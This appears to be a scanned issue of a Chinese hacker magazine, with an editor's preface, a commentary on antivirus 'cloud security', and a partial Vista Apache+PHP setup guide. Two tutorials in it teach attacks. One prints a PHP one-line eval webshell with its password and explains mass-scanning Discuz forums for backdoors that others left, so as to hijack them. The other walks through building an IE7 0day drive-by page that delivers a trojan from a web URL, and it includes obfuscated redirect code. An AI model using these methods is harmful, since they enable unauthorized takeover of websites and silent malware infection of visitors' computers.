杀鸡焉用牛刀，工具的选择也很重要，毕竟武器是生命的保障之一啊！当然，工具不是万能的，但没有工具却是万万不能的！当面对收集到的参数和毛信息时，人和工具的配合将决定事情的进展程度，快或慢也许就会影响到你与目标之间最终的结果。

做黑客要讲究技术，像庖丁解牛那样，先牛刀小试一番，切不可牛不停刀、猛砍猛杀，不然就有可能牛头不对马嘴。搞不定的地方不要钻牛角尖，要多问多想多实践，网络可是最大的知识库，有空就上去淘一淘吧，呵呵……

黑客这一门技术中，有许多分门学科，比如密码学、加密解密学、社会工程学等等，都是很复杂的学问。看过《非安全·黑客手册》出品的《黑客社会工程学攻击》一书的朋友应该会有所体会！因为那直接是人与人之间的信息学，形象点说，社工的过程就有点像对牛弹琴，因为你真实的目的是通过对方给出的信息达到另外的目的，而对方却一直以为他给你的信息就是你所需要的目的（好拗口哦，果然不愧为最恐怖的黑技术），这完全是风马牛不相及。

当大家费尽九牛二虎之力，获得自己的目标，或又有意外收获时，那么“玩玩而已”的心性你又有多少呢？黑客不是破坏，隐私应当尊重。最后，祝天下的牛郎织女，老牛拉破车……（囧编被众人喂糟中……谁在酱油里加三聚氰胺啊？我做俯卧撑都找不到暖瓶……）

祝所有“非”友新年快乐！！

## 走近“云安全”

# 新闻时评

“云安全”的概念来源于“云计算”，可以说“云安全”是“云计算”技术在信息安全领域的应用。更简单地讲，“云安全”指防毒安全厂商利用客户端搜集病毒样本，然后找到处理方式并分发给用户，这样整个互联网就成了一个大大的保障用户电脑安全的杀毒软件。

卡巴斯基实验室是第一个将“云安全”技术推向正式商用的安全厂商。他们在2008年8月初推出了一个安全解决方案：卡巴斯基全功能安全软件2009，在这个解决方案中就包括了“云安全”技术，可以从各个角度给用户提供完整的安全防御。

国内方面，瑞星在2008年7月正式发布“瑞星卡卡上网安全助手6.0版”，该产品拥有“自动在线诊断、木马行为判断与拦截、木马下载拦截”等三大独创的反木马功能，是一款集防、查、杀于一体的全新反木马利器。同时，也推出了基于互联网的新安全模式——“云安全”（Cloud Security）计划。

瑞星“云安全”（Cloud Security）计划将用户和瑞星技术平台通过互联网紧密相连，组成一个庞大的木马/恶意软件监测、查杀网络，每个“瑞星卡卡6.0”用户都为“云安全”（Cloud Security）计划贡献一份力量，同时分享其他所有用户的安全成果。

而国内另一大软件公司金山，联合百度、微软、腾讯三大网络巨头结成云安全联盟，全网布局“云安全”，让数亿用户分享金山毒霸“云安全”成果。相关人士表示，“依托于云安全技术，金山毒霸2009一举实现三项重要突破：病毒库病毒样本数量增加5倍，日最大病毒处理能力提高100倍，紧急病毒响应时间缩短到1小时以内。”

金山毒霸“云安全”主要由可支撑海量样本存储及计算的水平平台、互联网可信认证服务、爬虫系统这三大架构组成。作为安全2.0时代的核心，云安全的推出有效弥补了依托本地病毒库方式进行病毒查杀的不足。

随着各大杀软对于“云安全”技术的关注和投入，作为全球第一家提出基于云计算平台安全解决方案的厂商，趋势科技在主题为“Web安全云时代”的发布会上，展示了公司基于云安全技术架构（Cloud-Client）构建的下一代内容安全防护解决方案，正式进军“云安全”领域。

SecureCloud云安全技术作为下一代内容安全架构，旨在通过动态校验访问信息的安全等级进行评估，在恶意信息侵入网络之前，在源端直接就将其进行阻止，从而达到零接触、零感染的防护价值。


目前的“云安全”分两类：一类是特征库或类特征库在云端的存储与共享；另一类就是作为一个最新的恶意代码、垃圾邮件或钓鱼网址等的快速收集、汇总和响应处理的系统。

对于第一类方式，就目前来看，并没有很好地发挥出“云计算”的优势，因为信息安全产品还是具有很强的终端特性，仅仅将特征库放在云端，并没有太大的优势。因为在现在的网络环境中，下载下来也是一瞬间的事，而且在本地存放特征库还会大大减少因为网络故障带来的响应失败问题。

对于第二种方式，能够很好地对新的威胁进行快速响应，最大地发挥了群众的力量，应该说是较好的一种方式。

随着恶意程序的爆炸式增长，用户更为迫切地需要能够在第一时间就对新的恶意程序及其产生的不良后果进行防御，甚至在新的恶意威胁出现之前就具备对其进行防御的能力。

无论“云安全”只是一个噱头，还是一种趋势，它起码让更多的人认识到“云计算”应用到安全领域，将会为安全领域带来巨大的变化。希望安全领域厂商能够与从事“云计算”的专业厂商展开密切合作，我们期望国内能够早日涌现出真正意义上的“云安全”软件厂商。

栏目首语：怎么说呢？年味越来越浓了，天气越来越冷了，可金融危机却依然没有退去的迹象，不知道有多少人受到了这个风暴的影响呢？你的肉鸡受到影响了吗？呵呵，不要紧，这期的栏目给大家带来了别样的抓鸡方法，话说用到了孙子兵法的“螳螂捕蝉，黄雀在后”呢！怎么样，来尝尝鲜吧！

## Discuz漏洞再利用之批量抓肉鸡

图 winger[bhst]



- 从本文你可以学到：
- 如何利用dz工具批量拿webshell

Discuz! 6.x/7.x SODB-2008-13 Exp发布之后，短短几天之内互联网里有如刮起了一场黑色风暴，无数大型论坛被人侵入。而入侵它们，并不需要很高超的技术，使用现成的工具即可，几秒钟你就可以学会。

先看一下现成的工具，如图1，不过这个漏洞只有开启了WAP注册的Discuz论坛才存在。google搜索之后一个一个试太麻烦，我等菜鸟又无法写出自动执行攻击步骤的工具，怎么办呢？

做一个有头脑的菜鸟，往往比速成高手容易得多，收成也不见得要差，且看我慢慢道来。这个漏洞的成因就不说了，漏洞被利用后，默认会在论坛站的/forumdata/cache/目录下生成一个名为eval.php的一句话木马，木马的内容就是`<?eval($_POST[c]);?>80vul`，即连接密码是c。

我发现很多人都没有更改这个一句话木马的内容就拿来使用，用完之后也不删除就离开，而且不说他们是懒惰还是出于对发布者的尊重，这种情况可以被我们利用，从而拿到大量的肉鸡。

拿出挖掘机，在“一句话”部分点“添加”，新增一个“文件名”为eval.php、“路径名”为/forumdata/cache/的扫描项。之后选中这个扫描项，“搜索关键词”填“Discuz”，其它选项设默认值就行，如图2，然后开始扫描。

一会儿功夫，就扫到了几台符合条件的目标，比例大概是每1300个网站中有一台，如图3。

用WebShellControl连接扫到的url地址，输入默认密码c，轻松得到大量肉鸡，如图4。

怎么样？一招“螳螂捕蝉，黄雀在后”就让你再也不用为没有肉鸡而发愁啦！

> 【文章中涉及到的exp以及批量工具已经收录于本期光盘中】

**编辑点评：**  
作者写得过于简单，为了大家方便，提供了一份批量拿shell的工具，以备不时之需！











## 过年前的最后疯狂

## ——利用IE7 0day抓鸡

不知不觉就要过年了，今年爆出的高危漏洞真是数不胜数，相信各位朋友应该也从中抓到了不少肉鸡吧？这次我为各位带来的是最高危漏洞微软IE7的0day。

首先打开我们的IE7 0day网马生成器，工具的界面如图1所示。然后把配置好的木马上传到自己的网页空间里并记下网址，再在“木马地址”中填入我们配置好的木马网址。这里我假设为“http://www.nohack.cn/ie.exe”，填好后点击“生成”按钮，程序就会在同目录下生成一个名为“ie7.htm”的文件，这个文件就是我们的网马了。



先别急着把它上传到你的空间上，因为这个网马的代码里有些字符必须修改一下。我们用记事本打开这个网马，然后找到以下代码：

```javascript
<script language="javascript">
<center>http://www.6dsoft.cn/</center>
if(navigator.userAgent.toLowerCase().indexOf("\x6D\x73\x69\x65 \x37")==-1)
location.replace("\x61\x62\x6F\x75\x74\x3A\x62\x6C\x61\x6E\x6B");
```

我们把“`<center>http://www.6dsoft.cn/</center>`”（编辑注：不明白挂马的代码怎么会有这样一段无关紧要的句子，莫非是打广告的……）这句代码去掉，现在可以测试网马了，效果如图2所示。

好了，文章就到这里，如果各位朋友还有什么问题，可以到NOH4CK的论坛（http://www.nohack.cn/bbs）来提问，我会尽力为你们解答的。最后在新的一年里祝各位读者技术高升，“黑手”越办越好！



> **编辑点评：** 这个0day的价钱传得很疯狂，而且这个漏洞是由中国人发现的，好像还影响IE8，呵呵！作者为大家提供了一个工具，估计大家看到杂志的时候补丁早已出来了。不过，大家不要干坏事。

恶言：估计大家拿到这期手册，应该还有十几天就要过年了吧？给大家拜个早年了哦，终于又迎来新的一年了。回顾上一年，可真够乱的，出现的新病毒就有千万个，微软都爆了那么多漏洞，居然还留了一个四年来最严重的……看来，虚拟机上网都不安全了……不过俗话说得好，乱世出英雄啊，大家要加倍努力咯。

## Vista也玩PHP（下）

- 1. Apache的安装与配置
- 2. 使用Vista下的PHP集成环境


经过前两期的努力，我们终于搭建出了IIS + PHP + MySQL + Zend Optimizer的环境，但Apache和PHP、MySQL的组合才是黄金搭档啊，我们怎么能无视掉众多Apache粉丝们的热切期望呢？所以最后，我们就要来看看，Vista下怎样用Apache来搭建PHP环境。

## 第三部分 Apache与集成环境

相关软件和下载地址如下，同时光盘中有提供。

Apache：http://httpd.apache.org/download.cgi  
PHP：http://www.php.net/downloads.php

### 安装Apache

很幸运，Apache的官方网站为我们提供了msi的安装版本下载，这让Apache在Vista下的安装更容易。我们下载回安装包后执行安装，开始是欢迎界面和协议，都一路点击“Next”即可，直到来到如图1所示的地方。



在这里需要设置一些信息，第一个输入框里设置你的网络域名，第二个设置你的服务器名，第三个设置管理员的邮件地址。最下面还有两个选项，如果你只是偶尔需要开一下Apache，那就选第二项吧，以后需要的时候你要手动打开Apache，否则就选默认项。认的第一项。

接着点击“Next”进入下一步，会问你是以“典型方式”安装还是要“自己定义”？我们就默认“典型安装”吧，直接“Next”，然后会让你选择安装位置。选择好安装路径后就可以进行安装了，安装完成后打开浏览器测试一下，一切正常，Vista 下安装 Apache 还是很容易的。

> **小提示：**
>
> 低版本的 Apache 对 Vista 支持不是很好，安装之后可能会无法注册为服务，不过对使用影响不大，需要手工注册。所以，还是到官方下载最新的版本吧，就没有这个问题了。

#### 配置 Apache

关于 Apache 对站点的配置，不是我们的专题，这里只是讲一下怎样为 Apache 添加上 PHP 支持。关于 PHP 的安装我们在连载第一期上已经讲过了（还是将文件解压缩，将配置文件复制到系统目录），这里就不再啰嗦了。现在我们已经把 PHP 安装好了，位置在“C:\php”，那接下来，把它们结合到一起吧。

我们首先要编辑 Apache 的配置文件，它的名字是“httpd.conf”，在 Apache 安装文件夹的 conf 子文件夹中。用记事本打开文件后找到“LoadModule”字串，在下面添加如下内容：（注意：将 C:/PHP 替换成你的 PHP 安装路径）：

```text
LoadModule php5_module "C:/PHP/php5apache2_2.dll"
```

然后找到“AddType application/x-gzip .gz .tgz”，在下面添加如下内容：

```text
AddType application/x-httpd-php .php
AddType application/x-httpd-php .html
```

到这里就算是把 PHP 加入 Apache 了。当然，还有一些小地方需要修改，比如说把 index.php 加入默认页面，那就找到“DirectoryIndex index.html”，修改为“DirectoryIndex index.php index.html”。

修改好之后保存，然后通过托盘中的 Apache 菜单来重新启动 Apache 服务，这样就可以了。你现在可以用测试页面看一下它是否工作正常，如图 2 所示。

这样，Apache+PHP 环境就搭建好了，再加上前一期讲的 MySQL 的搭建，你已经有一个完整的 PHP 环境了。



#### 使用集成环境

这都是正统的安装方法，如果每次重装系统后都要进行这么一次繁琐的操作，多麻烦啊！所以有人就把这些需要的程序制作成了一个统一的软件包，叫做集成环境，能让你简单地一次性搭建好一个完整的平台。它的优点是简单方便，缺点是配置太众化，安全性不是很高，所以集成环境适合那些需要临时调试程序的情况，而对于一般用户来说，也是个很不错的选择。

这样的集成环境有很多，这次我们选择了 phpStudy。这个程序包集成了最新的 Apache+PHP+MySQL+phpMyAdmin+Zend Optimizer，一次性安装，无须配置即可使用，是非常方便、好用的 PHP 调试环境。该程序不仅包括 PHP 调试环境，还包括了开发工具、开发手册等。

运行安装程序，程序会先让你选择语言，当然选“中文”了，然后一直点击“下一步”，直到如图 3 的界面，让你选择安装的位置。

你可以在这里更改程序安装的路径，然后点“下一步”来到如图 4 的界面，这里选择的是你的 PHP 程序要存放的位置，也就是你的网站根目录。





